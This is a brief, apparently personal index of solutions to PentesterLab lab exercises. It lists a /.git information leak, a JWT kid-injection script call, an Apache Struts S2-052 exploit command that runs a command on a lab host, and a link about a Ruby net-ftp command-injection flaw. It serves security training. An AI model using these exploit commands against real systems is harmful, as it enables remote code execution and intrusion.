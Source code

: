 ## Blue Badge

### Git Information Leak

Go to `/.git`

### JWT III

https://tools.ietf.org/html/rfc7515#section-4.1.4

```
$ python3 jwt-3.py #kid-injection
```

### S2-052

```
$ python3 s2-052.py --target http://ptl-cb6ff16c-87a44c51.libcurl.so/orders/3 --command "/usr/local/bin/score 2fdb31a2-ca58-4650-abfb-9406be061d69"
```

### JWT IV

https://www.ruby-lang.org/en/news/2017/12/14/net-ftp-command-injection-cve-2017-17405/


